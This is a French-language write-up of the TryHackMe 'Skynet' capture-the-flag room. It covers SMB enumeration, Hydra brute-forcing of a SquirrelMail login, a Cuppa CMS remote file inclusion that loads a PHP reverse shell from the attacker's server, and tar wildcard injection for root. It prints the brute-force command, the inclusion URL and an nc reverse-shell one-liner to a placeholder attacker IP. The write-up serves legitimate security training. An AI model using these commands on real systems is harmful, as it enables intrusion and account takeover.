<div align="center">

# **WriteUp/Guide [FR] - TryHackMe : Skynet**

</div>

**Author:** [Damien D.](https://fr.linkedin.com/in/damien-d-9816121a9)

---




J'avais beaucoup aimé la room dédiée à Goldeneye alors autant poursuivre avec un autre des films de mon enfance avec la room Skynet consacrée à Terminator ! 


Une fois l'ip obtenue, on tombe sur une page skynet qui semble être un moteur de recherche mais il est inactif. 


  
Rien du côté de F12 non plus, je lance un scan gobuster, sait-on jamais. 


```
gobuster dir -u http://10.10.139.7 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```


Et on y trouve une page de login pour un service mail. N'ayant rien sous la main pour le moment, je garde ça de côté. 



  
Je passe à Nmap qui devrait nous en dire plus. J'active les scipts avec -C et comme d'habitude, je crée un fichier pour garder les résultats de mon scan. 


```
nmap -sS -sV -sC -O -p- -n -T4 10.10.139.7 > nmap && cat nmap
```


On trouve pas mal de pistes, notamment du smb et même un nom d'utilisateur : guest. 



  
On va pouvoir explorer ce serveur smb grâce à smbmap et ce nom d'utilisateur. 


```
smbmap -u guest -H 10.10.139.7 -P 445
```



  
Et on trouve un dossier anonymous ainsi qu'un nom //familier : Miles Dyson ! 


  
Je me connecte ensuite au serveur avec ce compte guest, il n'y a pas besoin de mot de passe 


```
smbclient //10.10.139.7/anonymous -U guest
```


On y trouve deux choses : un fichier texte que je télécharge et un dossier logs. 


  

  
Apparemment, il y a eu un problème concernant les mots de passe, pas impossible qu'on en apprenne plus en lisant les logs. 



  
Je les ai téléchargés tous les trois mais je n'avais pas fait attention aux tailles des fichiers : seul le log1.txt contient des infos : une liste qui pourrait bien être une liste de mots de passe. On sait aussi qu'on a un utilisateur qui sera probablement miles ou milesdyson. Il est temps de revenir à la page de connexion  squirrelmail. 


  


*What is Miles password for his emails?* 

 


J'intercepte la requête avec Burpsuite pour formuler une commande avec Hydra : on est sur une requête post et on a le message d'erreur. N'étant pas sûr du user miles ou milesdyson, je mets les deux dans un fichier users.txt (il y a peu de mots de passe, c'est négligeable). 


```
hydra -L ./users.txt -P ./log1.txt 10.10.139.7 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect"
```


  
En se connectant à la messagerie, on trouve 3 mails (SENT et DRAFT sont vides). Le premier contient ce qu'on cherchait : le nouveau mot de passe. 



  
Les deux autres mails reprennent une phrase en boucle (le premier mail est en binaire mais un passage par Cyberchef plus tard et on retrouve la même chose) : *balls have zero to me to me to me to me to me to me to me to me to. *Je n'avais pas la réf donc je suis allé chercher et c'est tiré d'un échange entre deux IA de Facebook qui se seraient mises à communiquer dans un language qu'elles auraient co-créé. Dans une room comme celle-ci, rien d'étonnant, on joue sur le concept de singularité. Plus sérieusement, il y a eu un gros emballement sur cette histoire finalement pas si intéressante. Voici un lien qui résume bien les choses : [https://www.lemonde.fr/pixels/article/2017/08/01/non-facebook-n-a-pas-panique-a-cause-d-un-programme-d-ia-capable-d-inventer-un-langage_5167480_4408996.html](https://www.linkedin.com/redir/redirect?url=https%3A%2F%2Fwww%2Elemonde%2Efr%2Fpixels%2Farticle%2F2017%2F08%2F01%2Fnon-facebook-n-a-pas-panique-a-cause-d-un-programme-d-ia-capable-d-inventer-un-langage_5167480_4408996%2Ehtml&urlhash=CZ8y&trk=article-ssr-frontend-pulse_little-text-block) 


Retour donc au serveur SMB avec le mot de passe du compte milesdyson. Plusieurs pdf sur le deep learning et un dossier notes. 



  


*What is the hidden directory?* 

 


Dans ce dossier, pas mal de fichiers mais un seul ne respecte pas la nomenclature : important.txt 


  

  
Et on trouve l'endpoint qu'on nous demandait. Il nous oriente vers une page personnelle où on parle de Miles au passé... Rien de plus mais c'est sans doute un nouveau point de départ pour de l'énumération. 



  

  
En se rendant sur la page administrator, on se retrouve de nouveau devant une page de login mais cette fois, les mots de passe (ancien et nouveau) ne donne rien. Mais la page du challenge nous donne une indication. 


*What is the vulnerability called when you can include a remote file for malicious purposes?* 

 


Indice chez vous : on vous donne quasiment tous les termes dans la question ! 


En cherchant cuppa cms sur exploitdb, on tombe sur un exploit qui correspond à ça. C'est un peu technique mais en gros, on doit pouvoir inclure un php hosté sur notre machine via l'url. Ca veut donc dire qu'il va falloir faire un reverse shell en php, mettre en place un  serveur python pour avoir une adresse d'upload et l'inclure dans le payload. 


  
Pour ce qui est du reverse shell en php, il est trouvable ici : [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://www.linkedin.com/redir/redirect?url=https%3A%2F%2Fpentestmonkey%2Enet%2Ftools%2Fweb-shells%2Fphp-reverse-shell&urlhash=_FJq&trk=article-ssr-frontend-pulse_little-text-block) 


Il ne reste qu'à le mettre à jour avec la bonne ip et le port d'écoute. 


  
Ensuite, on prépare un serveur python depuis le dossier où est hébergé le fichier et en parallèle un nectcat en écoute sur le port qu'on a indiqué dans notre fichier php. 


```
nc -lvp 5555
```


```
http://10.10.209.117/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.21.166.58:8080/php-reverse-shell.php
```


Et nous y voilà ! 



  


*What is the user flag?* 

 


Et on peut récupérer le flag user.txt 


  
Quant à l'ascension de privilèges, il y a de quoi faire dans les crontabs avec un script qui se lance chaque minute en root. 


  

  
Le script n'est pas modifiable mais il a une faille.  


Là, j'en arrive à une vraie difficulté qui m'a obligé à regarder le writeup (eh oui, c'est aussi comme ça qu'on apprend, après tout, c'est ce que vous êtes en train de faire aussi) mais celui-ci manque cruellement d'explications. J'ai donc trouvé cette page bien plus claire : [https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa](https://www.linkedin.com/redir/redirect?url=https%3A%2F%2Fmedium%2Ecom%2F%40polygonben%2Flinux-privilege-escalation-wildcards-with-tar-f79ab9e407fa&urlhash=6bvb&trk=article-ssr-frontend-pulse_little-text-block) 


Pour résumer, il est possible de créer des fichiers dont les noms seront interprétés comme des commandes. Et pour que la création de l'archive permette cela, il faut utiliser une fonction "checkpoint" qui permet de faire une sorte de point d'étape à intervales réguliers. Si on le paramètre sur 1, il fera ce check à chaque nouveau fichier et pourra lancer un script pour nous. 


Revenons-en donc au script. Il tient en 2 lignes :  


```
cd /var/www/html
```


Le script se rend dans ce dossier et il se trouve qu'on y a les droits en écriture, ce qui va jouer un rôle essentiel. 


```
tar cf /home/milesdyson/backups/backup.tgz *
```


Ensuite, il archive dans le dossier backups de milesdyson TOUT ce qu'il trouve dans /var/www/html. Autrement dit, c'est ici qu'on va inclure ces fameuses commandes dans des noms de fichier et celles-ci permettront de lancer un reverse shell vers notre machine. Le payload est très classique si vous avez déjà fait quelques CTF : 


```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER IP> <PORT> >/tmp/f
```


  
La première ligne donne le pas des checkpoints : à chaque ajout dans l'archive. La seconde fabrique le payload et crée le fichier shell qui va être exécuté. La dernière donne l'action à exécuter à chaque étape du checkpoint : exec=sh signifie que c'est le shell (en root donc) qui va lancer mon shell qui contient un reverse vers ma machine. 


  
Très chouette room avec un final certes technique mais bon à connaitre parce que finalement très mécanique. J'ai mis pas mal de temps à comprendre le fonctionnement de tout ça mais il y a pas mal de blogs qui donnent plus ou moins d'explications ainsi que des vidéos sur youtube si vous avez un peu de mal à saisir le fonctionnement. Pour le reste, rien d'insurmontable mais pas mal de petites étapes à franchir notamment côté SMB. 


A très vite pour un prochain Writeup ! 


